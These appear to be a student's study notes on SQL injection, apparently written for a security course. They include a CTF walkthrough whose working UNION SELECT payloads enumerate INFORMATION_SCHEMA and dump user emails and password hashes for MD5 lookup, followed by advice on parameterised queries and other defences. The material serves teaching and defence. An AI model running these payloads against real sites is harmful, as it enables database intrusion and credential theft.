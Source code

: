 # SQLi 

SQLi has existed for a number of years, yet it continues to be a common problem on many websites. 

When probing for SQL vulnerabilities, it is important to consider which SQL version the server is using. 

Popular versions inlude: 
* mySQL 
* SQLlite 
* PostgreSQL 
* MongoBD 

It is also important to consider the version they're using as small details in updates may be a unnotible, but perhaps dangerous entry point. 

Before considering any points of entry, one must first understand the website. What is the purpose of the website, what is it trying to protect and what can you possibly recon from it? 

Forms may be vulnerable to particular characters, including: 

```
‘”;<lol/>../--#`ls 
```

These characters allow one to change the semanitics of the code, altering the intentions of the developer who had not considered a potentially harmful input. 

## How does SQLi work? 

SQL, or Stuctured Query Language allows you to access and manipulise large databases through simple english. It is designed to be intuitive to understand. 

However, because it is mostly 'english' it is prone to dangerous attacks which could potentially change the query itself. 

Consider 

``` 
select * from users where username="admin" and password="password" limit 1; 
``` 

This query is straightforward, get the (one) user who has username "admin" and password "password."

The query is not designed to understand that `admin` and `password` is an input data and the rest is code to be executed using the input data. 

This is a common problem within vulnerabilities: mixing `data` and `control`. 

As a result we can manipulate the to get all users who are "admin" using

```
select * from users where username="admin" and password="x" or "1"="1" limit 1;
```

Note how we have ended the quotation even though that was not the developer's intention. 

## Where to start 

1) Test for breaking a SQL query using different quotations [", ', `] 
2) Find which SQL version it is 
3) Try to get everything in the table

## Weekly CTF Testing for SQLi [bigapp]
0) Notice that the site calls an api after sanitising the request so we have to make the call using the api url directly 

```
https://{website}/api/v1/bproducts?q=PAYLOAD
```
1) Tested for `'` (single quotation mark) and got the output 

```
Error 1064: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ‘%’ OR pname LIKE ‘%PAYLOAD'%‘) AND bu IS NOT NULL) ORDER BY ’ at line 1

```

From this, we can tell that the server is using MySQL, and is searching using wildcard `%`, then ordering by the cateogory. 

We also know there are two columns named  `bu` and `cateorgory`. (Well you also know )from the site) 

2) Find all the columns using `INFORMATION_SCHEMA.COLUMNS` 

The information_schema allows you access the database meta-data(?). 

See [documentation](https://dev.mysql.com/doc/refman/8.0/en/information-schema-columns-table.html) for more information. (Although they're not very good haha) 

First, we have to prob to see how many columns we are required to query from bproducts (since they always have to match). 

We found that there are 6 items. 
``` 
Input: '')) UNION SELECT COLUMN_NAME, TABLE_NAME, 3, 4, 5, 6 from INFORMATION_SCHEMA.COLUMNS; -- COMMENT 
``` 

Now we have the correct syntax, we want to find the tables available. 

``` 
Input: '')) UNION SELECT COLUMN_NAME, TABLE_NAME, 3, 4, 5, 6 from INFORMATION_SCHEMA.tables; -- COMMENT 
``` 
Will change the original query 
```
SELECT * FROM (("%" OR pname LIKE %PAYLOAD%') AND  bu IS NOT NULL) ORDER BY cateogory 
```

to 
```
SELECT * FROM (("%" OR pname LIKE '%'')) UNION SELECT COLUMN_NAME, TABLE_NAME, 3, 4, 5, 6 from INFORMATION_SCHEMA.tables; -- COMMENT %') AND  bu IS NOT NULL) ORDER BY cateogory 
```

This query comments out the second half of the original query altogether.  

The result  
```
bproducts
users
```
3) Look up the column names for the two tables `bproducts` and `users`

```
Input: '')) UNION SELECT COLUMN_NAME, TABLE_NAME, 3, 4, 5, 6 from INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='bproducts'; -- COMMENT  

Result: Bproducts={id, pname, category, code, bu, owner}

Input: '')) UNION SELECT COLUMN_NAME, TABLE_NAME, 3, 4, 5, 6,  from INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='users'; -- COMMENT

Result: Users={id, fname, lname, type, userid, email, mobile, city, state, postcode, password}

```
Note, we must match the number of columns within the query to the number the columns the queried table contains. 

4) From here, we can do many thing.. The first thing that comes to mind being, how can we obtain privileges? 

```
Input: random_string')) UNION SELECT email, userid, password, type, fname, lname from users -- .
```
From here, we can see the email `admin@admin.com` and the password is a hash (Which we can reverse MD5 lookup). 

5) Then we can try to obtain sensitive information which the site hides 

```
Input: random_string') UNION SELECT email, userid, password, type, fname, lname from users -- .
```

## Preventing SQLi 

We can solve our confusion between `code` and `data` by using **paramatised queries**. 

For example 
```
query = "SELECT * from Customers WHERE CustomerID = @CustomerId" 
SQL_Command cmd = new SQL_Command(query); 
command.Paramters.Add(SQL_Paramter("@CustomerID", System.Data.SQLDbType.Int)); 

... 

command.Paramters["@CustomerId"].Value = 1; 
```

We should always be using parameterization to perform a query. 

Other defensive strategies include
* Application Layer 
    1) Handling error messages gracefully - which will make the injection a blind injection
    2) Filter user input by using parametised queries 
* Database Layer
    1) Minimise privilege level of database user
    2) Prevent arbitray connections to your database server 

## Reading Materials Provided 

* [Microsoft: Preventing SQLi](https://docs.microsoft.com/en-us/previous-versions/msp-n-p/ff648339(v=pandp.10)?redirectedfrom=MSDN)
* [Pentester Lab](https://pentesterlab.com/exercises/from_sqli_to_shell/course)
* [SQL Map](https://github.com/sqlmapproject/sqlmap)
* [Anatomy of an Attack: SQLi to Shell](https://resources.infosecinstitute.com/anatomy-of-an-attack-gaining-reverse-shell-from-sql-injection/)